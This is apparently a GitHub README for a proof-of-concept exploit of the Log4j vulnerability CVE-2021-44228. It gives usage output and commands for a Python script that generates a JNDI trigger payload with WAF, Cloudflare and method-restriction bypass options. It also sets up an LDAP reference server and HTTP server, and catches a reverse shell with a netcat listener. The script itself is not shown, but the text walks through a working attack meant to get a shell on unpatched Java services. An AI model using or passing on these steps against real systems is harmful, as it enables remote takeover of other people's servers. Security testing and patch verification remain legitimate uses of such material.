


# Log4j Simple Exploit
A Proof-Of-Concept Exploit for ***CVE-2021-44228*** vulnerability.

Log4j, which is used to log security and performance information, impacts upwards of 3 billion devices that use Java across a variety of consumer and enterprise services, websites and applications, as well as medical devices and supporting systems.<br>
***Note: This is not a "point and click" exploit. The initial trigger payload will be generated, but injecting it into the appropriate place (i.e. HTTP header/chat/etc.) will be up to the user.***

## Prerequisite's
- python3
- pip install -r requirements.txt
- Install [jdk1.8.0_20](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) and add bin folder to enviroment variable

```
usage: python CVE-2021-44228-exploit.py --help 
[!] CVE: CVE-2021-44228
[!] This is simple Log4j exploit to get reverse shell
[!] Reference: https://akashpatil.me/log4j-guide-book.html

usage: CVE-2021-44228-exploit.py [-h] [--userip userip] [--webport webport] [--lport lport] [-b bypass]

log4shell Reverse shell exploit

optional arguments:
  -h, --help            show this help message and exit
  --userip userip       Enter IP for LDAPRefServer & Shell
  --webport webport     listener port for HTTP port
  --lport lport         Netcat Port
  -b bypass, --bypass bypass
                        Type of bypass payload. None/WAF/Methods/Cloudflare. Methods - "ldap", "jndi", or the
                        ${lower:x} method restriction bypass
```

##### Example:
1) Run the script for Linux OS with bypass payload of method
```
python poc-csw.py --userip private-ip --webport 8888 --lport 9001 -b method
```

2) run netcat on port 9001 in your local machine 
```
nc -lvnp 9001
```
3) Copy the 'Try me' payload to bypass methods restriction and use it input variable to get shell in netcat
***Note:*** If No bypass is chosen use 'Send me' payload




# Reference
- https://akashpatil.me/log4j-guide-book.html
- https://github.com/kozmer/log4j-shell-poc
